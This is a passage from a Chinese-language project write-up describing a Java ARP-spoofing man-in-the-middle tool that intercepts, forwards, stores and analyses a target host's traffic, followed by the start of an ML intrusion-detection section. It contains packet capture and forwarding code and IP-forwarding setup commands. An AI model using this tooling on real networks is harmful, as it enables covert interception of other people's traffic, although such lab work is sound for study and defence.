                  if(packet.datalink instanceof EthernetPacket){
                    EthernetPacket eth = (EthernetPacket) packet.datalink;
                    String macFromCap = eth.getSourceAddress();
                    if(!macFromCap.equalsIgnoreCase(config.getSrcMac())){
                      savePacket(ipPacket, true);
                    }
                  }
                  forward(ipPacket, gateMACBT);
                }
                //如果这个数据包的目的IP地址是目标主机的IP地址，那么说明是下行链路的数据包
                else if(ipPacket.dst_ip.getHostAddress().equals(config.getDestIp())){
                  savePacket(ipPacket, false);
                  forward(ipPacket, dstMACBT);
                }
              }
            }

            //检查是否是ARP包
            if(packet instanceof ARPPacket){
              ....
            }
          }
        }catch (Throwable e){
          ...
        }
      }
    }
  };
  executor.execute(task);
}
```

接下来测试欺骗能否成功，运行程序，并访问请求`attack/startAttack`，此时服务端会开启两个子线程：

1. 一个线程用于发送欺骗包给目标主机和网关，进行欺骗。
2. 一个线程从网卡上抓包，看看能否抓到目标主机访问`filterDomain`的数据包。

首先在目标主机上查看ARP表，判断是否欺骗成功：

![image-20210329191331592](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329191331592.png)

如上图所示，已经成功将目标主机的网关MAC地址修改为了本地主机的MAC地址，因此目标主机发送的数据包都会经过本地主机的网卡。接下来我们在目标主机上访问`filterDomain`，并在服务端开启第二个线程抓包。结果失败了，压根没抓到目标主机的数据包，为什么呢？检查发现目标主机已经不能访问Internet了，发不出包。

既然MAC地址已经是本地主机了，说明目标主机的数据包应该能够发送到本地主机的网卡上，有可能是本地主机的网卡没开启IP转发，因为即使数据包接收到了，程序也调用了转发方法，但是底层的设备不支持IP转发，目标主机仍旧是无法访问Internet的。

所以我们尝试在本地主机上开启IP转发功能：

1. 在MAC上：
   1. 开启IP转发：sudo sysctl -w net.inet.ip.forwarding=1
   2. 查看IP转发已开启（为1）：sudo sysctl -a | grep net.inet.ip.forwarding

2. 在windows上：
   1. 开启IP转发：以管理员身份打开注册表编辑器，定位注册项HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/Tcpip/Parameters，选择项目IPEnableRouter并修改数值为1

![image-20210329192456978](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329192456978.png)

本地主机IP转发开启成功，继续测试：在目标主机上`ping www.baidu.com`，抓到一个从网关发到目标主机的ICMP数据包，我们把它转存入Redis：

![image-20210329193000045](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329193000045.png)

至此基本的攻击算是成功了。

为了后面的数据包分析功能，我决定把数据包存在redis的list结构中，list集合的名称按`batch_id`命名，list中的value就是每个序列化后的数据包实体。

开放攻击，查看前端数据统计，成功抓到了许多数据包。但是很明显有一个问题：只有下行的数据包被抓到了，上行的数据包没有被抓到。

![image-20210329204233419](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329204233419.png)

我感觉是本地主机开了IP转发的原因，网卡在接收到目标主机访问百度的数据包后，进行IP转发，把源MAC地址修改为了本地主机的MAC地址，然后将数据包转发给网关，所以当数据包的MAC地址为本地主机的MAC地址时，本程序将其过滤掉了。看看问题代码:

```java
//如果这个数据包的源IP地址是目标主机的IP地址，那么说明是上行链路的数据包
if(ipPacket.src_ip.getHostAddress().equals(config.getDestIp())){
  //如果这个数据包的源MAC地址是本地主机的MAC地址，说明这是我自己发送的数据包，需要忽略
  if(ipPacket.datalink instanceof EthernetPacket){
    EthernetPacket eth = (EthernetPacket) ipPacket.datalink;
    String macFromCap = eth.getSourceAddress();
    if(macFromCap.equalsIgnoreCase(config.getDestMac())){//卡在这了
      savePacket(ipPacket, true);
    }
  }
  forward(ipPacket, gateMACBT);
}
```

将MAC地址的限制放开，因为在外层if逻辑中已经明确判断出IP地址是目标主机的IP地址了，那么就不用MAC地址过滤了，把最内层if逻辑删除。重新抓包：抓到了上行链路的数据包，基本上是ping 1个，回应2个。

![image-20210329213112283](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329213112283.png)



#### 5.5.3 停止攻击

点击attack stop按钮后，会向服务器发送请求`/attack/stopAttack`。将标识位`attacking`置为`false`，并返回`batch_id`到前端。前端随即将`batch_id`作为参数向服务器发起请求`analyse/analysisByBatchId?batchId=1`，开始分析数据包。





### 5.6 数据包分析

所有被抓取的数据包都被封装到名为`CapturedXXXPacket`的pojo类中，并序列化到redis。当服务端接收到`analysisByBatchId`请求后，会根据批次读出`CapturedXXXPacket`数据，然后对数据包进行分析。以TCP包为例，在分析过程中会将HTTP和HTTPS包从其他的TCP包中过滤出来，另行存放。假设当前在分析一个HTTP包:

1. 首先根据端口号过滤，源或者目地端口为80端口的数据包留下
2. 然后将TCP的ACK号作为Key，将TCP报文段重组，通过`appendPacket`实现
3. 最后将所有有效的HTTP包封装为`AnalyzedHttpPacket`并序列化到redis中。

主要代码如下：

```java
private long analysisHttp(Integer batchId){
  this.analyzing = true;
  List<CapturedTCPPacket> fromList = (List<CapturedTCPPacket>) redisMapper.getFromList(AttackKey.cap_packet, "batch_id" + batchId + "_TCP_list", CapturedTCPPacket.class);
  HttpPacketFilter httpPacketFilter = new HttpPacketFilter();
  Map<Long, IAnalysisRealm> analysisRealmMap = new HashMap<>();
  long size = 0;
  for (CapturedTCPPacket tcpCapturedPacket : fromList) {
    TCPPacket tcpPacket = tcpCapturedPacket.getPacket();
    //根据端口号判断是否是HTTP协议
    if(!httpPacketFilter.filter(tcpPacket)){

      if (tcpPacket.getData() != null && tcpPacket.getData().length > 0) {
        size++;
        //根据TCP包的ACK号作为Key
        if (!analysisRealmMap.containsKey(tcpPacket.getAckNum())) {
          HttpAnalysisRealm httpAnalysisRealm = new HttpAnalysisRealm();
          httpAnalysisRealm.initPacket(tcpCapturedPacket.getBatchId(), tcpCapturedPacket.isUpStream(), tcpPacket);
          analysisRealmMap.put(tcpPacket.getAckNum(), httpAnalysisRealm);
        } else {
          analysisRealmMap.get(tcpPacket.getAckNum()).appendPacket(tcpPacket);
        }
      }
    }
  }

  saveRealmPackets(analysisRealmMap, batchId, new AnalyzedHttpPacket());
  this.analyzing = false;
  return size;
}
```

其他数据包的处理类似，不再赘述。

### 5.7 前端数据包可视化

在前端设置到过滤条件后，点击Filter按钮，提交post请求`/analyze/filterPackets`到服务器。

![Snip20210406_157](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/Snip20210406_157.png)

服务端处理请求，解析参数。先从redis中按照batchId查询出数据包，然后根据过滤条件过滤，最终返回数据包。实际上应当以过滤条件作为查询语句去数据库中查询，这样能够减少数据库的查询时间并减少网络通信开销，在高并发场景下提高效率。这里用redis，没办法特别自由地查询数据。

查询后的结果如下：

![image-20210406204426228](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210406204426228.png)





## 6. 入侵检测

接下来将在以上项目的基础上，按照论文《Machine Learning DDoS Detection for Consumer Internet of Things Devices》中描述的方法实现简单的入侵检测系统。

这篇论文主要通过分析数据包的时空特性，利用决策树和随机森林来进行入侵检测。